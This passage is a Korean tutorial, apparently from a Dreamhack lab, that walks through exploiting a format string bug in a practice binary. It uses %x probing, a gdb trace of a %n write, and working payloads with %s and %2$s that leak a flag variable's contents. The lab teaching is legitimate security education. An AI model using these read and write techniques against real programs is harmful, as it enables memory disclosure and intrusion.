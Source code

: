 우선 포맷 스트링 버그가 존재하면 포맷 스트링이 참조하는 버퍼에 공격자의 값을 쓸 수 있는지, 그리고 입력한 데이터가 몇 번째 포맷 스트링에 참조되는지를 먼저 알아내야 한다.
공격자가 변조 가능한 데이터 포맷 스트링에 의해 참조된다면 임의 주소에 값을 쓰거나 읽는 것이 가능하다.
```
//fsb
$ ./fsb1
Input: AAAA%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x 
AAAA9ca9008.41414141.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.78252e78.a78252e.0
```
fsb를 확인해보면 처음 입력 값 "AAAA"가 두 번째 포맷 스트링에 의해 참조되는 것을 확인할 수 있다.
해당 값은 printf가 호출될 때의 스택 포인터의 값을 확인하면 정확하게 알아낼 수 있다.
만약 처음에 입력한 4바이트의 값이 특정 메모리 주소라면, 해당 포인터를 참조하는 포맷 스트링을 사용했을 때 입력한 주소에 값을 쓰거나 읽을 수 있따.
```
//fsb_n
# gdb fsb1
(gdb) set disassembly-flavor intel
(gdb) r
Starting program: ./fsb1 
Input: AAAA%x.%n
Program received signal SIGSEGV, Segmentation fault.
0xf7e43369 in _IO_vfprintf_internal (s=0xffffafd4, format=<optimized out>, ap=0xffffd5b8 "%x.%n\n") at vfprintf.c:1631
1631	vfprintf.c: No such file or directory.
(gdb) x/i $eip
=> 0xf7e43369 <_IO_vfprintf_internal+8873>:	mov    DWORD PTR [eax],esi
(gdb) i r $eax $esi
eax            0x41414141	1094795585
esi            0xc	12
```
fsb_n을 보면 "AAAA%x.%n"을 입력했을 때 printf 함수가 실행되면서 프로그램이 비정상 종료한 것을 알 수 있다.
비정상 종료가 발생한 명령어와 레지스터를 gdb를 통해 확인해보면, 0x41414141이 "%n" 포맷 스트링을 통해 참조되어 값을 쓰다가 Segmentation fault가 발생되는 것을 알 수 있다.
이해를 돕기 위해 요약한 명령어는 아래와 같다.
```
mov    DWORD PTR [0x41414141], 0xc
```
만약 두 번째 값이 0x41414141이 아닌 메모리에 존재하는 주소라면 해당 영역에 값을 쓰거나 읽을 수 있다.   
"%n" 포맷 스트링을 이용하면 원하는 주소를 참조하여 값을 쓸 수 있다는 것을 알았다.
그러나 fsb1에서는 전역 변수 flag_buf에 저장된 내용을 읽어야 한다.
flag_buf의 주소는 심볼을 이용해 gdb에서 다음과 같이 알아낼 수 있다.
```
(gdb) info var flag_buf
All variables matching regular expression "flag_buf":
Non-debugging symbols:
0x0804a080  flag_buf
```
입력의 첫 4바이트에 0x0804a080 주소를 입력하여 두 번쨰 포맷 스트링을 참조할 때 해당 주소를 참조하도록 한다.
특정 문자열을 출력할 때 "%s" 포맷 스트링을 사용하여 다음과 같이 지정된 주소의 문자열을 출력할 수 있다.
```
printf("%s", "HELLO WORLD")
```
만약 "[flag_buf 주소].%x.%s"을 삽입한다면 "%s" 포맷 스트링을 처리할 때 printf("%s", 0x804a080)의 결과를 출력할 것이다.
```
//fsb1_exploit
(gdb) r <<< $(python -c 'print "\x80\xa0\x04\x08%x.%s"')
Starting program: ./fsb1 <<< $(python -c 'print "\x80\xa0\x04\x08%x.%s"')
Input: ?804b008.DREAMHACK_FORMATSTRING
```
fsb1_exploit을 확인해보면 성공적으로 "flag" 파일의 내용인 "DREAMHACK_FORMATSTRING" 문자열이 출력된 것을 확인할 수 있다.
만약 사용자가 입력한 값이 두 번째가 아닌 천 번째, 만 번째 포맷스트링에서 참조할 수 있다면 해당 포인터를 참조하도록 많은 포맷 스트링을 입력해 접근해야 한다.
그러나 이를 쉽게 해결하는 방법 또한 존재한다.
```
//fsb1_exploit2
(gdb) r <<< $(python -c 'print "\x80\xa0\x04\x08%2$s"')
Starting program: /mnt/hgfs/ubuntu/dreamhack/fsb1 <<< $(python -c 'print "\x80\xa0\x04\x08%2$s"')
Input: ?DREAMHACK_FORMATSTRING
```